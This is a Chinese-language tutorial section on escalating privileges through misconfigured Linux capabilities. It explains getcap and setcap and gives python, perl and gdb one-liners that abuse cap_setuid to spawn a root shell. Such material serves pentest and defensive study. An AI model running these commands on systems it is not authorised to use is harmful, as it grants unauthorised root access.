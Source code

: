 ## 八. capabilities

capabilities 是linux2.2后出现的产物，它的出现一定程度上弥补了suid这种粗糙的权限管理机制，但是capabilities 自身也有造成提权的安全隐患

### 1. 简介

capabilities 把root的权限细分了，可以分别启用或者禁用。

在进行特权操作的时候，如果euid不是root，那么系统就会检查是否具有执行特权操作的对应capabilities ，并以此为凭据决定特权操作是否能被执行。

如下是一些常见的特权操作及其对应capabilities

![image-20220418223102459](/assets/img/image-20220418223102459.png)

关于capabilities的管理工具有如下:

- getcap
- setcap
- capsh
- filecap

getcap 用于查询capabilities，setcap用于设置capabilities，capsh用于查当前shell进程的capabilities，filecap既能设置又能查询。

我们可以通过以下指令搜索设置了capabilities的可执行文件

```
getcap -r / 2>/dev/null
```

### 2. 实操

### 通过cap_setuid

cap_setuid 可以设置当前用户的euid，我们可以通过此选项来进行一些提权。

以python为例

我们发现python3.8 有cap_setuid权限，那么我们可以用以下指令进行提权

```
python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

![image-20220418223112298](/assets/img/image-20220418223112298.png)

类似的有很多。

perl

```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

gdb

```
gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
```
